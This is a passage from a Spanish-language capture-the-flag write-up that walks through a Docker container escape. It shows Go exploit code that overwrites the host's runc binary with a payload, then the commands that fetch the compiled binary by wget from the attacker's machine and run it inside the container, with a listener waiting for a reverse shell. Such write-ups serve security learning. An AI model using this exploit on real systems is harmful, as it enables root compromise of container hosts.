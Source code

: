 ```go
			handleFd = int(handle.Fd())
		}
	}
	fmt.Println("[+] Successfully got the file handle")

	// Now that we have the file handle, lets write to the runc binary and overwrite it
	// It will maintain it's executable flag
	for {
		writeHandle, _ := os.OpenFile("/proc/self/fd/"+strconv.Itoa(handleFd), os.O_WRONLY|os.O_TRUNC, 0700)
		if int(writeHandle.Fd()) > 0 {
			fmt.Println("[+] Successfully got write handle", writeHandle)
			writeHandle.Write([]byte(payload))
			return
		}
	}
}
```

Lo compilaremos con go para que se pueda ejecutar.

```bash
❯ go build main.go
❯ ls
 main   main.go
```

Vamos a transferirnos el binaro a la máquina víctima. Ahora tendremos que abrir tres termianales . Dos que estén conectadas por SSH a la máquina víctima (Podemos usar la clave privada encontrada anteriormente) y otra con un listener para recibir la revshell.

Ahora tendremos que entrar desde una terminal dentro del contenedor y descargarnos el binario que compilamos anteriormente.

```bash
noah@thenotebook:/tmp$ sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash
root@0f4c2517af40:/opt/webapp# wget http://10.10.16.6:8081/main
--2023-03-16 11:21:33--  http://10.10.16.6:8081/main
Connecting to 10.10.16.6:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2140271 (2.0M) [application/octet-stream]
Saving to: ‘main’

main                                            100%[====================================================================================================>]   2.04M  2.43MB/s    in 0.8s    

2023-03-16 11:21:34 (2.43 MB/s) - ‘main’ saved [2140271/2140271]

root@0f4c2517af40:/opt/webapp# chmod +x main
root@0f4c2517af40:/opt/webapp# ./main
```

Desde la segunda terminal tendremos unicamente que entrar en el contenedor.
